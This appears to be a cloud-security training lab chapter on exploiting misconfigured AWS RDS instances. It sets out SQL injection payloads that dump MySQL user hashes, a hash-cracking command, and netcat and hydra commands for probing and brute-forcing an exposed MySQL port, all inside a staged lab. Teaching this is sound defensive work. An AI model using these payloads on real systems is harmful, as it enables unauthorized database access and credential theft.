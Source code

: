 # AWS RDS Misconfigurations

## Introduction

AWS RDS instances just like standard database installations can end up being misconfgured. However, unlike standard databases the misconfigurations mostly arises out of administrators choosing to use the Master User that is created during the setup of a new instance. This user, although not the real 'root' user in RDS systems, is used to manage other aspects of the system.

Common misconfigurations include weak passwords, setting the RDS instance to become publically available and allowing multiple applications to use the same MasterUser account.

## What are we going to cover?

In this chapter we will take a look at some of the common misconfigurations in RDS and see how we can use them to gain access to data on an RDS instance. 

## Steps to setup lab

Run the following script in the student VM to bring up the target lab (DO NOT RUN THIS IF LAB IS ALREADY CREATED)

    deploy-clouddb

The output of this script is (note them)

- the internal IP address of the target EC2 running the web app
- And RDS endpoint name

**Please Note: This script may take up to 10 minutes to complete**

> If you see any error, please inform one of the trainers

## Steps to attack

### Attack 1 - Weak password and read access to mysql.user

Set Firefox to go through Burp by changing the proxy settings

Connect to the attacker using the SSH tunnel

    ssh -D 9090 -l cloudhacker $cloudhackerip

Browse the application at http://INTERNAL-IP-OF-TARGET-EC2

Register a new user and login with that user

The Product Search page is vulnerable to SQL Injection

#### Find number of columns

Intercept a product search request in Burp Suite

Send it to Repeater

In Repeater, right click and select "URL-encode as you type"

Use the following as input to the "search" parameter

    ' order by 10 -- //

    ' order by 8 -- //

    ' order by 4 -- //

    ' order by 5 -- //

#### Identifying which columns are to be used

The columns numbers visible in HTTP response can be used

    ' union select 1,2,3,4,5  -- //

    ' union select null, @@version, user(), @@datadir, @@hostname -- //

    ' union select null, user, password, null, null from mysql.user -- // 

Obtain the hash of the 'rdsroot' user 

If the password is weak, this can be cracked using tools like hashcat, john or even custom scripts.

We wrote a simple python script that will allow you to crack the password using a dictionary. Provide the hash to the following script after removing the *

    mysqlcrack <hash-here> custom-rockyou.txt

For example:

    mysqlcrack 2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 custom-rockyou.txt

Connect to the mysql endpoint directly using the client using the credentials of 'rdsroot' and the cracked password. RDS Endpoint is the hostname of the RDS (without the :3306)

    mysql -u rdsroot -p -h <RDS-ENDPOINT>


### Attack 2 - Port exposed to the Internet

This is a staged scenario. We will be attacking the RDS instance from the attacker VM inside your AWS account.

Verify the visibility of this port. Replace `rds-endpoint` with the actual name of the RDS endpoint

    nc <RDS-ENDPOINT> 3306 -zv

As the port is exposed, brute force or dictionary attacks can be mounted using tools like hydra

    hydra -f -t2 -l rdsroot -P custom-rockyou.txt <RDS-ENDPOINT> mysql

## Additional references

- [Brute force MySQL](https://robert.penz.name/1416/how-to-brute-force-a-mysql-db/)
- [AWS security for RDS](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.html)
- [Best Practices for Amazon RDS](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/CHAP_BestPractices.html)